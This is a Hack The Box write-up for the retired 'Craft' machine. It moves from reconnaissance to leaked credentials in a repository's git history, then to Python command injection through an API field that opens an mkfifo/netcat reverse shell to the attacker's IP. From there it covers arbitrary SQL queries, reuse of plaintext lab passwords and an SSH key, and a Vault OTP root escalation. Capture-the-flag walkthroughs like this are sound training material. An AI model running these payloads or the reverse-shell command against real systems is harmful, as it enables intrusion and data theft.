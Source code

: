 ```yaml
---
title: Hack The Box Craft Write Up
published: true
---
```

Hey Guys This is chan and Today craft is retired from hack the box and here is my write up about craft.It is an medium linux machine.Craft is an easy one.it is https protoco.So let’s get jump.

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/craft/craft.jpg)

# [](#header-2)Nmap Scan
```
root@ch4n:~# nmap -sC -sV 10.10.10.110

Starting Nmap 7.60 ( https://nmap.org ) at 2019-11-03 15:15 EST
Nmap scan report for 10.10.10.110
Host is up (0.22s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)
|   256 82:b5:f9:d1:95:3b:6d:80:0f:35:91:86:2d:b3:d7:66 (ECDSA)
|_  256 28:3b:26:18:ec:df:b3:36:85:9c:27:54:8d:8c:e1:33 (EdDSA)
443/tcp open  ssl/http nginx 1.15.8
|_http-server-header: nginx/1.15.8
|_http-title: About
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Not valid before: 2019-02-06T02:25:47
|_Not valid after:  2020-06-20T02:25:47
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
# [](#header-3)Web Page
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/craft/webpage.png)

So here if we check the web page there are two interesting things.These are https://api.craft.htb/api/ and https://gogs.craft.htb/

So if we look at https://gogs.craft.htb/ ,there is a git hub repo that’s call Craft/ craft/api and some user accounts 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/craft/craft%20repo.png)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/craft/craft-api%20repo.png)

So I downloaded the repo with git clone but I got the error like this
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/craft/git%20clone%20error.jpg)

So After some goggling about this error I found the way to fix.You can check it [here](https://supportuae.wordpress.com/2018/07/23/how-to-git-clone-without-ssl-verify/)
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/craft/git%20clone%20error%20fix.jpg)

So we got the file.I used git log -p to find the remove code 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/craft/creds.png)
So here we got the creds.

There is another way to get creds.Here it is.
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/craft/creds2.png)

```
dinesh:4aUh0A8PbVJxgd
```
this line is in test.py so we can  exploit test.py using this creds.If we check test.py ,it is vulnerable to command injections.  

Here is my modiefied code:
```
import requests
import json

response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
json_response = json.loads(response.text)
token =  json_response['token']

shell = """__import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.37 9001 >/tmp/f")"""

headers = { 'X-Craft-API-Token': token, 'Content-Type': 'application/json'  }

print("Create  ABV brew")
brew_dict={}
brew_dict['abv'] = shell
brew_dict['name'] = 'ch4n'
brew_dict['brewer'] = 'ch4n'
brew_dict['style'] = 'ch4n'

json_data = json.dumps(brew_dict)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
print(response.text)
```
after running this file we got reverse shell

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/craft/reverse%20shell.png)

```
/opt/app # ls -la
total 44
drwxr-xr-x    5 root     root          4096 Jan  3 17:28 .
drwxr-xr-x    1 root     root          4096 Feb  9  2019 ..
drwxr-xr-x    8 root     root          4096 Feb  8  2019 .git
-rw-r--r--    1 root     root            18 Feb  7  2019 .gitignore
-rw-r--r--    1 root     root          1585 Feb  7  2019 app.py
drwxr-xr-x    5 root     root          4096 Feb  7  2019 craft_api
-rwxr-xr-x    1 root     root           673 Feb  8  2019 dbtest.py
drwxr-xr-x    2 root     root          4096 Feb  7  2019 tests
```

```
/opt/app # cat dbtest.py
#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try: 
    with connection.cursor() as cursor:
        sql = "SELECT `id`, `brewer`, `name`, `abv` FROM `brew` LIMIT 1"
        cursor.execute(sql)
        result = cursor.fetchone()
        print(result)

finally:
    connection.close()
/opt/app #
```

after getting reverse shell I check dbtest.py  then modified the script like this
```
#!/usr/bin/env python

import pymysql
from craft_api import settings
import sys
# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try: 
    with connection.cursor() as cursor:
       sql = sys.argv[1]
       cursor.execute(sql)
       results = cursor.fetchall()
       for i in results:
          print(i)

finally:
    connection.close()
```

Then check the tables in database then got user and pass
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/craft/gilfoyle_creds.jpg)
So check Gilfoyle user
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/craft/login.png)

```
gilfoyle : ZEU3N8WNM2rh4T
```

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/craft/gilfoyle%20repo.png)

He has the repo call craft-infra.And also left ssh key

So I copied it to my machine then connect with ssh  then grab the user flag

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/craft/user.jpg)


# [](#header-2)Privillege Escalation

In gilfoyle repo there is a file called secret.sh it it interesting

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/craft/secret.sh.png)

```
#!/bin/bash

# set up vault secrets backend

vault secrets enable ssh

vault write ssh/roles/root_otp \
    key_type=otp \
    default_user=root \
    cidr_list=0.0.0.0/0
```
It said enable ssh engine then create otp role for root you can read [this](https://www.vaultproject.io/docs/secrets/ssh/index.html)

We have .vault token so that we can login to  the vault then create otp role for root

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/craft/authenticate.png)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/craft/root.jpg)

In here we are with root.

So that’s it guys hope you enjoy it:-)



